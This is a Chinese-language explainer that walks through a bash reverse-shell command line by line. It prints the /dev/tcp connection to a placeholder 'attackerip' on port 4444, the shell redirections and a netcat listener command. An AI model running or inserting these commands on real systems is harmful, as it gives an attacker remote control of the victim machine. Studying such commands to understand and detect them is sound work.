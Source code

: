 这段代码是一个 **反弹 Shell（Reverse Shell）** 的攻击命令，常用于渗透测试或黑客攻击中。它的作用是被攻击机器主动向攻击者（`attackerip:4444`）发起连接，并提供一个 Shell 会话供攻击者控制。

我们来逐行解析它的工作原理：

---

#### **1. 整体逻辑**

这条命令的核心是：

- **建立 TCP 连接**（`/dev/tcp/attackerip/4444`）
- **重定向 Shell 输入/输出**，使攻击者的指令可以传递给受害者机器，并接收返回结果。

---

#### **2. 关键组成部分解析**

##### **(1) `0<&196`**

- **作用**：关闭 `stdin`（标准输入，FD 0），并用 FD 196 替换它。
- **解释**：
  - 命令执行前，`stdin`（FD 0）通常指向键盘输入。
  - `0<&196` 使 `stdin` 使用 FD 196（后面会定义）。

---

##### **(2) `exec 196<>/dev/tcp/attackerip/4444`**

- **`exec`**：不启动新进程，直接修改当前 Shell 环境。
- **`196<>file`**：
  - `<>` 表示 **读写模式**（同时支持读和写）。
  - `196` 是指定的文件描述符（FD 196）。
- **`/dev/tcp/attackerip/4444`**：
  - **Linux 魔法文件**（Bash 特性，不是真正的设备文件）。
  - 用于创建 **TCP 套接字** 并连接到 `attackerip:4444`（攻击者 IP 和端口）。

**相当于：**

```bash
socket = open("/dev/tcp/attackerip/4444", "rw")  # 伪代码
```

攻击者需要在 `attackerip` 机器上监听 `4444` 端口（如 `nc -lvnp 4444`）。

---

##### **(3) `sh <&196 >&196 2>&196`**

- **`sh`**：启动 `/bin/sh`（Bourne Shell）。
- **重定向**：
  - `sh` 的输入（`stdin`）来自 FD 196 → `<&196`（即攻击者发送的命令）。
  - `sh` 的输出（`stdout`）重定向到 FD 196 → `>&196`（攻击者接收结果）。
  - `sh` 的错误（`stderr`）也重定向到 FD 196 → `2>&196`（攻击者接收报错）。

**最终效果**：

```text
攻击者（192.168.1.100:4444）      				受害者机器
     |          <-- TCP Socket 连接 -->			 |
     |                             				  |
     |--> 发送命令（`ls`）-->  FD 196  --> `sh` 执行 |
     <-- 返回结果（`file.txt`） <-- FD 196 <--	  |
```
